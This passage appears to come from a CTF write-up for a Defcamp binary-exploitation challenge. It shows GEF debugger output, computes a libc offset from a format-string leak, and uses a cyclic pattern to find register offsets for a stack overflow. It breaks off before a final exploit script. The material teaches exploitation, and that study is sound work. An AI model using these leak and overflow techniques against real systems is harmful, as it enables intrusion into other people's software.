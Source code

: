 ```asm
0x00007ffff7dd5000 0x00007ffff7dfc000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7fd1000 0x00007ffff7fd3000 0x0000000000000000 rw- 
0x00007ffff7ff7000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000027000 r-- /lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000028000 rw- /lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
gef➤  p 0x7ffff7af4154 - 0x00007ffff79e4000
$1 = 0x110154
```

Using `vmmap` we get to know the address of executable and writable libc and using the address we leaked from `%3$lx` input we have the leaked libc address, we just subtracted the leak address from the `libc.so.6` address, we get the offset.



Time to find out the offsets for register so we we will create our final exploit:-

```asm
gef➤  b *main+164
Breakpoint 1 at 0x81e
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: /home/robin/CTFs/Defcamp/q3 
Enter name : AAAA
Hello
AAAA
Enter sentence : aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x6161616161616164 ("daaaaaaa"?)
$rdx   : 0x00007ffff7dd18d0  →  0x0000000000000000
$rsp   : 0x00007fffffffdd10  →  0x00007ffff7de59a0  →  <_dl_fini+0> push rbp
$rbp   : 0x00007fffffffdd40  →  "eaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaaka[...]"
$rsi   : 0x00007fffffffdd20  →  "aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga[...]"
$rdi   : 0x00007fffffffdd21  →  "aaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaa[...]"
$rip   : 0x000055555555481e  →  0x000028250c334864 ("dH3
                                                        %("?)
$r8    : 0x00005555557566d5  →  0x0000000000000000
$r9    : 0x00007ffff7fd24c0  →  0x00007ffff7fd24c0  →  [loop detected]
$r10   : 0x00007ffff7fd24c0  →  0x00007ffff7fd24c0  →  [loop detected]
$r11   : 0x246             
$r12   : 0x0000555555554670  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffde20  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdd10│+0x0000: 0x00007ffff7de59a0  →  <_dl_fini+0> push rbp	 ← $rsp
```